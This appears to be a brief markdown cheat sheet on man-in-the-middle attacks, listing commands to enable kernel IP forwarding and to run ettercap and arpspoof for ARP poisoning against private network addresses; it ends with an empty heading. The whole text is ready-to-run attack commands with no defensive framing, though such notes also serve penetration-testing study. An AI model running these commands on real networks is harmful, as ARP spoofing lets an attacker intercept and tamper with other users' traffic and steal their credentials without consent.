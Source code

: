 # Man in the middle - MITM

## Kernel forwarding

```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```


## ettercap

```sh
Ettercap -T -M arp /192.168.1.27/ /192.168.1.254/
```

## arpspoof

```sh
sudo arpspoof -i eth0 192.168.42.72
```

## 
